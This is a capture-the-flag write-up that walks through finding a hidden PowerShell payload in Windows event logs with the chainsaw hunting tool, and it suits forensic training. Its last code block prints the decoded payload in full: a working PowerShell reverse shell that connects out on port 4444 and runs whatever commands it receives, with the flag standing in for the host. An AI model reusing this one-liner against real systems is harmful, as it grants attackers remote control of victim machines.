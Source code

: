 
# Challenge Name: An Interesting Event
## Category: Digital Forensics

## Description

I hate windows logs.
  
---
## Approach

For this challenge you were given a zip file that contains a bunch of Windows Event Logs :

```bash
➜  /home/kakarot/RamadhanCTF/foren/an_interesting_event  ls Logs | wc -l
361
➜  /home/kakarot/RamadhanCTF/foren/an_interesting_event  ll Logs | tail -n 5
-rw-r--r-- 1 kakarot kakarot  68K Mar 27 16:36 Setup.evtx
-rw-r--r-- 1 kakarot kakarot  68K Mar 27 16:40 SMSApi.evtx
-rw-r--r-- 1 kakarot kakarot  68K Mar 27 16:37 State.evtx
-rw-r--r-- 1 kakarot kakarot 1.1M Mar 27 17:01 System.evtx
-rw-r--r-- 1 kakarot kakarot 1.1M Mar 27 16:58 Windows PowerShell.evtx
```

## Solution : 

The solution is pretty simple, all you need to do is analyze those files until you find something suspicious, but doing it manually would take forever especially when you have more than 300 files and you don't know which one you need (me neither).

Your best shot here is to use a tool to automate the analysis process, luckily there are many tools fit for this job. For this challenge I recommend using **chainsaw** which can be downloaded from here : https://github.com/WithSecureLabs/chainsaw

>PS : I recommend downloading the tool from the release section, building it yourself might not be useful

So after downloading the tool all you need to do is run this command to hunt through all the EVTX files :

```bash
➜  /home/kakarot/RamadhanCTF/foren/an_interesting_event  chainsaw/chainsaw_x86_64-unknown-linux-gnu hunt Logs -s chainsaw/sigma --mapping chainsaw/mappings/sigma-event-logs-all.yml -r chainsaw/rules --full --csv --output output

 ██████╗██╗  ██╗ █████╗ ██╗███╗   ██╗███████╗ █████╗ ██╗    ██╗
██╔════╝██║  ██║██╔══██╗██║████╗  ██║██╔════╝██╔══██╗██║    ██║
██║     ███████║███████║██║██╔██╗ ██║███████╗███████║██║ █╗ ██║
██║     ██╔══██║██╔══██║██║██║╚██╗██║╚════██║██╔══██║██║███╗██║
╚██████╗██║  ██║██║  ██║██║██║ ╚████║███████║██║  ██║╚███╔███╔╝
 ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝ ╚══╝╚══╝
    By WithSecure Countercept (@FranticTyping, @AlexKornitzer)

[+] Loading detection rules from: chainsaw/rules, chainsaw/sigma
[!] Loaded 3465 detection rules (494 not loaded)
[+] Loading forensic artefacts from: Logs (extensions: .mft, .evt, .evtx, .$MFT, .bin)
[+] Loaded 361 forensic artefacts (54.1 MiB)
[+] Current Artifact: Logs/Microsoft-Windows-Authentication User Interface%4Operational.evtx
[+] Hunting [========================================] 361/361   [00:00:04]                                                                                [+] Created account_tampering.csv
[+] Created microsoft_rds_events_-_user_profile_disk.csv
[+] Created powershell_engine_state.csv
[+] Created rdp_events.csv
[+] Created service_installation.csv
[+] Created sigma.csv

[+] 81 Detections found on 75 documents
```

The results of the analysis where saved into CSV files under the directory **output**, where there's a file with an interesting name : 

```bash
➜  /home/kakarot/RamadhanCTF/foren/an_interesting_event  ls -l output   
total 36
-rw-r--r-- 1 root root 2005 Mar 30 18:30 account_tampering.csv
-rw-r--r-- 1 root root 2589 Mar 30 18:30 microsoft_rds_events_-_user_profile_disk.csv
-rw-r--r-- 1 root root 5900 Mar 30 18:30 powershell_engine_state.csv
-rw-r--r-- 1 root root  617 Mar 30 18:30 rdp_events.csv
-rw-r--r-- 1 root root 2288 Mar 30 18:30 service_installation.csv
-rw-r--r-- 1 root root 8713 Mar 30 18:30 sigma.csv
```

The file **powershell_engine_state.csv** might contain something useful, let's open it :

```bash
➜  /home/kakarot/RamadhanCTF/foren/an_interesting_event/output  cat powershell_engine_state.csv | tail -n 2
2025-03-27T23:58:33.424636+00:00,PowerShell - Engine state is changed from None to Available,Logs/Windows PowerShell.evtx,400,Windows PowerShell,DESKTOP-SCG1VOK,ConsoleHost,5.1.19041.3803,powershell -c 'QQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==' | Out-File -Encoding ascii -FilePath b -Append -NoNewline,,,,,,
2025-03-27T23:58:34.065195+00:00,PowerShell - Engine state is changed from Available to Stopped,Logs/Windows PowerShell.evtx,403,Windows PowerShell,DESKTOP-SCG1VOK,ConsoleHost,5.1.19041.3803,powershell -c 'QQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==' | Out-File -Encoding ascii -FilePath b -Append -NoNewline,,,,,,
```

As you can see there are some powershell commands, which seem to be putting some encoded strings in a file after decoding them.

To see what was being written in that file, you'll need to collect those encoded strings -which seem to be Base64 encoded- and decode them. This command will do the job : 

```bash
➜  /home/kakarot/RamadhanCTF/foren/an_interesting_event/output  awk -F',' '!seen[$9]++ {print $9}' powershell_engine_state.csv | grep -o "'[A-Za-z0-9+/=]*'" | tr -d "'" | base64 -d
$client = New-Object System.Net.Sockets.TCPClient("Spark{1_h4t3_evtx_4nd_y0u_w1ll_t00}",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

After decoding the file's content, you'll see it's a simple revershell script written with powershell and the IP address is replaced by the flag.

**Flag** : **Spark{1_h4t3_evtx_4nd_y0u_w1ll_t00}**
